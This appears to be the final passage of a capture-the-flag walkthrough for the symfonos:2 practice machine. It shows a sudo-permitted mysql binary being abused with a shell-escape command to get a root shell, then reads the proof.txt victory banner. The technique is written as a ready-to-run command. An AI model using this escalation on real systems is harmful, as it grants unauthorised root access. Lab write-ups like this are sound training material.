 ```bash
    (root) NOPASSWD: /usr/bin/mysql

cronus@symfonos2:/opt/librenms/html$ sudo /usr/bin/mysql -e '\! /bin/sh'
sudo /usr/bin/mysql -e '\! /bin/sh'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls
ls
proof.txt
# cat proof.txt
cat proof.txt

        Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , \ {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`\ \    / /                                     }/      /,/
;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   \ \                                 _,`, `{  `,{   `,`;`
       {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
       \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
        `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
       /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
      /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
     / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
    / , ~ . ~ \ , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `\ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , \  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

        Contact me via Twitter @zayotic to give feedback!

#
```

Hope it helps!
